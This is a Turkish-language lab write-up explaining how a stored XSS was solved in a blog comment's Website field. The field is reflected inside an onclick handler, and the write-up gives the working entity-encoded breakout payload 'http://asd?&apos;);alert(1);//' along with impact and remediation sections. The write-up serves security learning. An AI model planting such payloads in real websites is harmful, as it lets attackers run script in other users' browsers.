





# Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda blog yorum formundaki `Website` alanı, yorum yayınlandıktan sonra kullanıcı adının linki içinde hem `href` attribute'una hem de `onclick` event handler'ına yerleştiriliyordu. Uygulama angle bracket ve çift tırnak karakterlerini HTML-encode ediyor, tek tırnak ve backslash karakterlerini ise escape ediyordu. Bu nedenle doğrudan tag injection veya basit quote kırma payloadları çalışmıyordu.

Zafiyet, `onclick` attribute'u içinde HTML entity decode işlemi ile JavaScript parsing sırasının birlikte kullanılabilmesinden kaynaklanıyordu. Website alanına `&apos;` gönderildiğinde bu değer HTML seviyesinde tek tırnak karakterine decode edildi. Böylece `tracker.track('...')` çağrısındaki tek tırnaklı string kapatıldı, ardından `alert(1)` çalıştırıldı ve payload sonundaki `//` kalan JavaScript kodunu comment'e aldı.

## 3. Exploitation Steps

1. Önce yorum formuna normal değerler girildi ve `Website` alanına test için geçerli görünümlü bir URL yazıldı.

```text
Comment: test
Name: baris
Email: baris@gmail.com
Website: https://google.com
```



2. Yorum yayınlandıktan sonra sayfa kaynağı incelendi. Website değerinin kullanıcı adı linkinde `href` olarak kullanıldığı ve aynı zamanda `onclick` event handler'ı içindeki `tracker.track()` fonksiyonuna tek tırnaklı string olarak verildiği görüldü.

```html
<a id="author" href="https://google.com" onclick="var tracker={track(){}};tracker.track('https://google.com')">baris</a>
```

Bu çıktı, payload'ın özellikle `onclick` içindeki JavaScript string context'ini hedeflemesi gerektiğini gösterdi.



3. Tek tırnak doğrudan escape edildiği için HTML entity kullanılarak payload hazırlandı. `&apos;` tarayıcı tarafından tek tırnağa decode edildiğinde `tracker.track()` içindeki string kapanır.

```text
http://asd?&apos;);alert(1);//
```

Yorum formu bu payload ile tekrar gönderildi.

```text
Comment: test
Name: fizz
Email: buzz@gmail.com
Website: http://asd?&apos;);alert(1);//
```



4. Yorum yayınlandıktan sonra kullanıcı adı link olarak göründü. Payload stored olarak kaydedildiği için XSS, linke tıklanınca `onclick` event handler içinde tetiklenecek hale geldi.



5. Kullanıcı adı linkine tıklandığında `onclick` içindeki JavaScript şu mantığa dönüştü:

```javascript
tracker.track('http://asd?');
alert(1);
//');
```

Bu sayede `alert(1)` çalıştı ve lab solved durumuna geçti.



## 4. Impact

Bu stored XSS zafiyeti sayesinde saldırgan, blog yorumuna kalıcı bir payload yerleştirebilir. Yorumu görüntüleyen ve payload içeren kullanıcı adı linkine tıklayan başka kullanıcıların tarayıcısında uygulama origin'i altında JavaScript çalıştırılabilir. Gerçek senaryolarda bu durum kullanıcı adına işlem yaptırma, sayfa içeriğini değiştirme veya hassas bilgileri hedef alma gibi etkilere yol açabilir.

## 5. Remediation

Kullanıcı kontrollü URL değerleri event handler attribute'ları içinde doğrudan kullanılmamalıdır. `onclick` gibi inline JavaScript attribute'ları yerine güvenli event binding yöntemleri tercih edilmelidir. Kullanıcı girdisi URL olarak kullanılacaksa scheme ve host allowlist kontrollerinden geçirilmeli, bulunduğu context'e uygun şekilde encode edilmelidir. HTML entity decode davranışı dikkate alınmalı ve JavaScript string context'ine veri yerleştirmekten kaçınılmalıdır. Ayrıca Content Security Policy ile inline event handler çalıştırılması sınırlandırılarak bu tür açıkların etkisi azaltılabilir.
